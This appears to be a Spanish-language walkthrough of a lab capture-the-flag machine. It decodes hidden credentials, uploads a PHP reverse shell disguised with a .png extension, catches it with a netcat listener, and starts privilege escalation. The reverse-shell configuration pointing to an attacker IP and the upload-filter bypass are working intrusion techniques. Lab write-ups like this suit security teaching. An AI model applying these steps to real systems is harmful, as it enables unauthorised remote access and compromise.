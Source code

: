 ```html
```
Podemos decodificar esta cadena con [CyberChef](https://gchq.github.io/CyberChef/) para revelar su contenido, lo cual nos permite descubrir que la cadena codificada representa un archivo .png. Una vez que sabemos esto, podemos decodificar la cadena y redirigir la salida a un archivo .png
```bash
base64 -d coment.txt > decode.png
```
La imagen contenía una contraseña, lo que significa que hemos obtenido credenciales para acceder a la página web
```bash
username: eezeepz
password: keKkeKKeKKeKkEkkek
```
Existe una función de carga de archivos en la página que solo acepta imágenes. Podemos intentar cargar un shell PHP inverso que se encuentra en la ubicación '/usr/share/webshells/php'. Sin embargo, necesitaremos editar este shell con la IP de nuestra máquina
```bash
cp -r /usr/share/webshell/php/php-reverse-shell.php ~/
```
```bash
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.0.1.11';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
Dado que solo podemos cargar imágenes, de lo contrario obtendremos un error, necesitaremos cambiar la extensión del archivo
```bash
mv php-reverse-shell.php php-reverse-shell.php.png
```
Una vez que hayamos subido el archivo, usamos el comando netcat para escuchar en el puerto que hayamos especificado en la shell
```bash
nc -lvnp 1234
```

Mientras escuchamos en el puerto especificado, accedemos al archivo que acabamos de subir desde el navegador utilizando la ruta /fristi/uploads/php-reverse-shell.php.png. Esto nos permitirá obtener el shell inverso en la terminal

# Privilege escalation
Para mejorar la estabilidad de la terminal, podemos usar el siguiente comando:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Al acceder a /home, observamos tres usuarios: admin, eezeepz y fristigod, pero solo tenemos acceso al usuario eezeepz. Al listar su directorio home, encontramos un archivo llamado notes.txt
```bash
cat notes.txt
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

```
